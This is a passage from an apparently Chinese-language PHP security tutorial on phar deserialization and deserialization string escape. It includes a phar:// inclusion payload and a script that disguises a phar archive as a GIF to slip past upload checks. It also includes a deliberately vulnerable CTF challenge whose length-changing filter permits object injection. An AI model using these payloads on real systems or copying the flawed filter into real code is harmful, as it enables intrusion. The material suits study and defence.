 ```php
?filename=phar://../upload/images/phar.gif
```

## 将phar伪造成其他格式的文件

在前面分析`phar`的文件结构时可能会注意到，`php`识别`phar`文件是通过其文件头的`stub`，更确切一点来说是`__HALT_COMPILER();?>`这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过添加任意的文件头+修改后缀名的方式将`phar`文件伪装成其他格式的文件

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

# 反序列化字符串溢出(字符串逃逸)

反序列化字符串溢出造成的攻击问题一般是因为对序列化之后的字符串进行了字符替换或者过滤等造成前后字符长度有差异；攻击者可以通过可控的属性传入payload造成对象注入；

- 对象的属性值可控
- 对序列化之后的字符串进行替换或者过滤造成前后长度有差异

例题:

```php
<?php
show_source("index.php");
error_reporting(0);
function filter($str){
    return preg_replace( '/abc|zxhh/','', $str);
}
$login['name'] = $_GET['name'];
$login['pwd'] = $_GET['pwd']; 
$login['money'] = '999';
$new = filter(serialize($login));
printf($new."</br>");
$last = unserialize($new);
var_dump($last);
if($last['money']<1000){
    echo "You need more money";
}else{
    echo file_get_contents('flag.php');
}
?>
```
